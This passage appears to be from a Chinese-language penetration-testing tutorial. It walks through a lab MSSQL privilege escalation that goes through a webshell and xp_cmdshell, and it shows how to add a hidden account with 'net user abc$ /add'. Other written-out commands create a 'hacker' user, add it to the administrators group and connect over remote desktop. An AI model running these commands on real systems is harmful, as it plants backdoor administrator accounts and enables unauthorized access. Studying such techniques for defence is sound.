  **扩展：**在命令行下建立隐藏用户：“net user abc$ /add”。 abc是建立的用户名，$符号是表示在dos下面隐藏。



## MSSqlserver xp_cmdshell提权

**原理：**

> 通过webshell读取网站数据库连接配置文件，获取数据库连接密码。
>
> 通过webshell上用xp_cmdshell添加系统帐号。

**方法：**

>1. 在浏览器中输入http://192.168.1.3:8000/2.asp ，输入默认密码（123456）。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214901.png)
>
>2. 单击“端口扫描”->“开始扫描”, 发现**1433**端口开放，安装有mssql数据库。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214918.png)
>
>3. 单击“数据库操作”，在右侧下拉列表mssql连接，输入相应的数据库名称master，密码123456。
>
>  在SQL操作命令中输入“select count(*) from master.dbo.sysobjects where xtype = ‘x’ and name = ‘xp_cmdshell’”，查看cmd_shell是否开启。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214925.png)
>
>4. 命令回显为1，cmd_shell为开启。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214909.png)
>
>5. 添加系统账号,在SQL操作命令中输入“Exec master.dbo.xp_cmdshell ‘net user hacker 123456 /add’”，没有回显表示命令成功。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214905.png)
>
>6. 在SQL操作命令中输入” Exec master.dbo.xp_cmdshell ‘net localgroup administrators hacker /add’ “将hacker加入管理员组。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214926.png)
>
>7. 单击”scan”按钮，查看端口号。发现3389端口开启着。 *3389*是远程协助的端口。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214907.png)
>
>8.  单击“开始”—>“运行”—>输入“mstsc”,用新加的用户hacker（账号hacker 密码123456）连接服务器（192.168.1.3）远程桌面。



## MysqlUDF提权

**原理：**
